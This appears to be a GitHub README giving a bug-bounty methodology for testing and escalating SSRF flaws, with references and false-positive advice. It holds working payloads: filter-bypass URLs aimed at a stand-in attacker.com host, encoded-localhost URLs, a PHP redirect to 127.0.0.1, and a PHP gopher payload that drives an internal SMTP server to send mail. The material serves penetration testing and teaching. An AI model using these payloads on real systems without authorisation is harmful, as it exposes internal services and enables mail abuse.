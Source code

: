 # SSRF
## SSRF Methodology Flowchart
Since I've seen so many people ask what to do once they get a request back to their collaborator instance, I created this flowchart to present what I usually do to test and escalate SSRFs. !Disclaimer! (These are only the techiques I test for. There are a few other ways of bypassing ssrf filters, which are not included in the flowchart.)
<img src=https://github.com/iustin24/SSRF/blob/main/iustinSSRFflowchart.png>
## False Positives:
DNS queries only are rarely exploitable, and should never be reported without any additional impact.

When using your listener as an email domain `test@burpcollaborator.com`, recieving SMTP + DNS queries are not signs of SSRF. It's just how SMTP works and should never be reported. There's been edge cases where the payload `test@burpcollaborator.com`, lead to http requests. If that's the case, SSRF might be possible. See [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) story 4. 
## Sources: 
### Whitelist filter bypasses
Some common whitelist filter bypasses I test against:
```
https://target.com@attacker.com
https://attacker.com/target.com
https://target.com.attacker.com
```
### Blacklist filter bypasses (decimal, hex, octal)
Inspired from [EdOverflow's blogpost on exploiting Ruby's Resolv](https://edoverflow.com/2017/ruby-resolv-bug/)  
http://0177.1:22/  
http://0x7f.1:22/  
http://127.000.001:22/  
See more at [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

### PHP Redirect
The value appended to location will be the url your page will redirect to. You can also play around with different status codes other than 301, such as 302,303,307.
```
<?php
header("Location: http://127.0.0.1", TRUE, 301);
exit();
?>
```
### SMPT Gopher payloads
Inspired from [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) 
```
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
Payload taken from [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
### Exploiting incosistencies in url parsers + DNS Rebdinding
Orange Tsai's blackhat presentation explains this perfectly. ( 
[PDF slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) + 
[Youtube presentation](https://www.youtube.com/watch?v=R9pJ2YCXoJQ&ab_channel=BlackHat) )  
I also highly recommend watching Liveoverflow's video  ([PHP include and bypass SSRF protection with two DNS A records ](https://www.youtube.com/watch?v=PKbxK2JH23Y&ab_channel=LiveOverflow)) which discusses url parsing incosistencies, while also touching on DNS Rebinding.
### More SSRF Resources
[Jdonsec's list of SSRF Resources](https://github.com/jdonsec/AllThingsSSRF)
